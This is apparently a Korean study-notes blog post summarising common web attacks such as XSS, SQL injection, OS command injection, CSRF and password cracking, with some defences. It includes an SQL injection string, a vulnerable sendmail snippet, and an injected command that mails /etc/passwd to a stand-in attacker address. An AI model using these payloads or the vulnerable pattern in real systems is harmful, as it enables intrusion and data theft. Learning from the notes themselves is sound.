 ```yaml
---
title: 그림으로 배우는 HTTP 스터디 5
date: 2020-02-21
tag: [Study]
---
```


## "그림으로 배우는 HTTP" 스터디 5

### ***11장: 웹 공격 기술***

#### 크로스 사이트 스크립팅(XSS)

  > 크로스 사이트 스트립팅은 취약성이 있는 웹 사이트를 방문한 사용자의 브라우저에서 부정한 HTML 태그나, JavaScript 등을 공격자가 악의적으로 동작시키는 공격이다.

#### SQL Injection

  > 먼저 SQL이란, 관계형 데이터베이스 관리 시스템에 대해서 조작하는 데이터베이스 언어이다. 그리고 SQL 인젝션은 이 언어를 이용하여 웹 애플리케이션을 이용하고 있는 데이터베이스에 SQL을 부정하게 실행하는 공격을 말한다. 예를들면,  
  `SELECT * FROM bookTBl WHERE author='우에노 센'--' and flag=1;`에서 인젝션이 발생하는 원인은, '--' 문자의 삽입이다. 이로 인해서 뒤에 오는 내용은 주석처리가 되고 `flag=1` 조건은 실행되지 않는다.

#### OS Command Injection

  > OS 커맨드 인젝션이란 웹 애플리케이션을 경유하여 OS 명령을 부정하게 실행하는 공격을 말한다. 예를 들면,

  ``` javascript
  my $adr = $q -> param('mailaddress');
  open(MAIL, "| /usr/sbin/sendmail $adr");
  print MAIL "From: info@example.com\n"
  ```

  > 위와 같은 스크립트에서 공격자가 메일 주소 값 $adr에 `; cat /etc/passwd | mail hack@example.jp`를 보낸다면,  
  첫번째 ';'세미콜론으로 인해 복수의 커맨드가 실행된다. 즉, sendmail 커맨드가 먼저 실행되고, 뒤이어 `cat /etc/passwd | mail hack@example.jp`가 실행된다. 결과적으로 `/etc/passwd`라는 리눅스 계정 정보가 포함된 파일이 `hack@example.jp` 메일로 송신된다.

#### HTTP 헤더 Injection

  > HTTP 헤더 인젝션이란 공격자가 리스폰스 헤더 필드에 개행 문자 등을 삽입함으로써 임의의 리스폰스 헤더 필드나 바디를 추가하는 수동적 공격을 말한다.

#### 부적절한 에러 메세지

  > "아이디가 등록되어 있지 않습니다" 혹은 "비밀번호가 틀립니다"와 같은 에러 메세지에는 문제가 있다. 왜냐하면 이를 통해서 공격자가 "음! 아이디가 등록되어 있지 않으니 아이디를 바꿔서 다시 시도해봐야겠군!" 혹은 "음! 비밀번호가 틀렸다는 말은 아이디는 존재한다는 의미로군!"과 같이 유익한 정보를 얻을 수 있기 때문이다.  
  그렇기 때문에 "아이디 혹은 비밀번호를 다시 확인해주세요"와 같이 별다른 정보를 얻을 수 없도록 에러메세지를 작성해야 한다.

#### 세션 하이잭

  > 세션 하이잭은 공격자가 어떠한 방법으로 유저의 세션 ID를 탈취해서 악용하는 것으로, 공격자가 유저인 것처럼 위장하여 공격하는 것을 말한다. 이런 세션 하이잭의 예시로는, 공격자가 크로스 사이트 스크립팅을 통해 `documment.cookie`라는 JavaScript 코드를 사용하여 세션 ID를 포함한 쿠키를 탈취할 위험이 있다. 이와 같이 XSS를 이용한 세션 하이잭을 막기 위해서는 쿠키의 속성으로 `HttpOnly` 속성을 지정해주면 된다.

#### 크로스 사이트 리퀘스트 포저리(CSRF)

  > 크로스 사이트 리퀘스트 포저리란, 인증된 유저가 의도하지 않은 개인정보나 설정정보 등을 공격자가 설치해 둔 함정에 의해 어떤 상태를 갱신하는 처리를 강제로 실행시키는 공격으로 수동적 공격이다. 유저의 자동로그인과 같이 "인증된 상태"를 이용해서 그 브라우저를 통해 서버에 무엇인가 call을 요청함으로써 원하는 정보를 취득하거나 이득을 보는 공격이다.

#### 패스워드 크래킹

  > **무차별 대입 공격** : 비밀번호 시스템에서 취할 수 있는 모든 경우의 수를 무차별적으로 다 때려박는 방식이다. 시간이 얼마가 걸리든 언젠가는 통과한다.  
  **사전 공격** : 무차별적으로 다 때려박는 게 아니라 사전에 사용자들이 비밀번호로 입력할만한 후보들을 추려서 대입해보는 방식이다. 만약 풀릴경우 무차별 대입 공격보다 훨씬 효율적이지만 아예 통과 못할 수도 있다.  
  **레인보우 테이블** : 레인보우 테이블은 평문과 그에 대응하는 해시 값으로 구성된 데이터베이스 테이블로, 사전에 이 테이블을 준비한 후 무차별 대입 공격이나 사전 공격시에 레인보우 테이블에서 해시 값을 검색해서 이에 맞는 평문을 이끌어 냄으로써 시간을 단축할 수 있다.

#### DDOS

  > 먼저 DOS란, 타겟 서버에 대량의 엑세스를 집중시킴으로써 부하를 걸어 서버의 리소스를 다 소비하게 해서 사실상 서비스 정지상태로 만드는 공격을 말한다. 그리고 이 공격을 여러 대의 컴퓨터로 수행하는 것을 DDOS 공격이라고 한다.

